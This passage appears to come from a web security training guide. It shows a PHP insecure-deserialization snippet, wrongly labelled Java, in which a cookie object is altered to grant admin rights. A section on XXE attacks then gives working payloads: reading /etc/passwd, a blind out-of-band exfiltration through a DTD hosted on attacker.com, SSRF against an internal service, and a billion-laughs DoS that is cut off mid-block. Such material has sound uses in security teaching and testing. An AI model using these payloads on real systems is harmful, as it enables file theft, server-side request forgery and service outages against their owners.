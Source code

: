 ```java
// Vulnerable code that deserializes user input
$user_data = $_COOKIE['user'];
$user = unserialize($user_data);

// Step 6: Create malicious PHP serialized object
// Original: O:4:"User":2:{s:8:"username";s:5:"guest";s:7:"isAdmin";b:0;}
// Modified: O:4:"User":2:{s:8:"username";s:5:"hacker";s:7:"isAdmin";b:1;}
```

### 5.2 XML External Entity (XXE) Attacks

Exploiting XML parsers that process external entity references:

1. **XXE Concepts**:
   - XML parsing and DTDs
   - External entity references
   - Parameter entities
   - XXE attack vectors

2. **XXE Attack Types**:
   - File disclosure
   - Server-side request forgery
   - Denial of service
   - Remote code execution (in some cases)

3. **Testing for XXE**:
   - Identifying XML input points
   - Testing external entity references
   - Blind XXE techniques
   - Out-of-band XXE

```xml
<!-- Example: XXE attack payloads -->

<!-- Step 1: Basic file reading XXE -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>

<!-- Step 2: Blind XXE with out-of-band interaction -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
  %xxe;
]>
<foo>Blind XXE test</foo>

<!-- Contents of evil.dtd on attacker's server -->
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%data;'>">
%param1;
%exfil;

<!-- Step 3: XXE for SSRF -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-service:8080/api/secret">
]>
<foo>&xxe;</foo>

<!-- Step 4: XXE DoS attack (billion laughs) -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lolz [
```